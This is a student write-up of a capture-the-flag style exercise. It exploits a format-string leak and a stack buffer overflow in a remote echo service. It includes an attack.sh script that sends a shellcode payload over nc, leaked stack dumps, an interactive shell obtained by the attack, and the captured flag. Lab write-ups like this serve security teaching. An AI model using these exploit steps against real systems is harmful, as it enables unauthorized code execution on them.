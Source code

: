 +++
title = "Writeup for assignment 5"
date = 2020-06-11
summary = "Solutions and explanations for assignment 5"

draft = true
toc = true
type = "book"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"thom"
]

+++
# Writeup "Overflowing a buffer"

## Analysis

The program we get prints back any input we give to it.

1. We start out by giving the program a lot of "A"s for input.
    1. We see that when we give it more than 104 bytes, we get some garbage output at the end.
        * The size of the buffer is probably 100 bytes
        * This garbage is probably some other variable above our buffer that gets written after we overflow the buffer
    1. When we give it 114 bytes of input, it crashes
        * We are probably starting to overwrite a frame pointer or return address

Using what we know of the stack and what we learnt, we can draw this picture of the stack:

```plaintext
+================================+ 0x7ffff
| main()                         |
+================================+
| ....                           |
+================================+
| return address                 |
+--------------------------------+
| frame pointer                  |
+--------------------------------+
| unknown variable               |
| buffer[100]                    |
+--------------------------------+
```

2. We now try a `%p` and see that we have a `printf` vulnerability.
    1. We give it 30x`"%p "`, so 90 bytes, to stay within the buffer, and obtain the following output:
    ```plaintext
    0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070 0 0x7fffffffebd0 0x7fffffffec60
    0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70
    0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce
    0x7fffffffecb0 0
    ```

    2. We know that the first few arguments are register values, so we ignore them.
    3. We see then a bunch of ``0x702520`` values: we hex decode this and see it's the hex encoding of `p`, `%` and `space` in ASCII.
    4. We see that there is a value `0x555555555236` which we hypothesise is the return address of our stack frame
        1. we see another similar address behind it, probably another stack frame.
    5. We see ``0x7fffffffec60`` before it that could very well be the frame pointer: it's a stack address because it starts with `0x7ff`.
    6. We see before the frame pointer some other value `0x7fffffffebd0`, which appears to be an address on the stack. This may be our unknown variable.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    |
+----------------------------------+
| frame pointer  0x7fffffffec60    |
+----------------------------------+
| unknown variable: 0x7fffffffebd0?|
| buffer[100]: 0x702520...         |
+----------------------------------+
```

3. Hypothesis: `0x7fffffffebd0` is the address of buffer.
    * `gets` returns the address of the buffer that is read into, so it's likely that that address is a local variable on the stack.

## Attack

1. We need to insert our shellcode at the start of the buffer
2. Followed by some `%p`s that we will use to position the return address
3. Followed by the return address `0x7fffffffebd0` in little-endian form.

We modify `attack.sh` in the following way:

```sh
# The first argument $1 is the number of %ps
for i in $(seq 0 $1); do
    attackstr="${attackstr}%p "
done

# if we provide a second argument insert the shellcode
# We also use $2 to indicate the number of NOPs we want
if ! [ "$2" = "" ]; then
    attackstr="$(shellcode list $2)$attackstr"
fi

# The third argument is the return address we want to use
if ! [ "$3" = "" ]; then
    attackstr="${attackstr}$(reverseaddr $3)"
fi

# print len
echo "Attack string is $(echo attackstr | wc -c) bytes" >&2
# send attackstr to hackme
echo $attackstr | nc hackme.rded.nl PORT
```

We execute this in the following way:

```sh
./attack.sh <%p count> <num of nops> <address>
```

If we provide 116 bytes, we see that we partially overwrite the frame pointer (we see ``0x7f007fffffff``)
If we provide 118 bytes, we see that we exactly overwrite the frame pointer (we see ``0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0``)

This allows us to update the stack picture with what byte of our input exactly ends up where:
```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 120..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| unknown variable: 0x7fffffffebd0?| 104..110
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```

The return address is 8 bytes behind the frame pointer, so we now write 126 bytes.
We get the output

```plaintext
H1H1H//bin/lsSHRWH;0x7ffff7ffc528 0 0 0x7ffff7ffda40
0 0x9090909090909090 0x9090909090909090 0xd23148c031489090
0x2f6e69622f2fbb48 0x485308ebc148736c 0xb0e689 485752e789
0x7025207025050f3b 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025
FLAG
bin
...
```

We now know that `/bin/ls` was sucessfully executed by the shellcode: the unknown variable is indeed a pointer to buffer.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 110..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| var = &buffer: 0x7fffffffebd0    | 104..112
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```


We now need to switch to the variant that starts `/bin/sh`.

To make sure that we can still provide input to the shellcode, we also switch to the command line with

```sh
(echo $attackstr; cat -) | nc hackme.rded.nl PORT
```

We obtain a shell and type ``cat FLAG``:

```sh
cat /FLAG
HiCCTF{2v3jp6i8GLMCJpDuzD03ILEqKFmcyIMaziEuqi9HXhyoStRi4E2INJopluRr4J1c}
```
